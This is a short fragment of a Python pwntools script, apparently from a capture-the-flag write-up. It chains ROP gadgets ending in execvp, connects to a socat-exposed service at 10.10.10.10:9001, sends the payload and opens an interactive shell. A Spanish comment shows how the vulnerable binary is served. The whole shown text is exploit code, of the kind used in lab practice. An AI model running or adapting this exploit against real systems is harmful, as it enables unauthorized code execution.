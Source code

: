 ```python
	payload += pop_rsi
	payload += null
	payload += null
	payload += execvp
	
	payload += b"\n1.1.1.1\n"
	try:
# Con socat ejecutamos lo siguiente > # socat TCP-LISTEN:9001, EXEC:"/opt/iptctl/ipclt -i"
		p = remote("10.10.10.10", 9001)
	except Exception as e:
		log.error(e)

	p.sendline(payload)
	p.interactive()
```


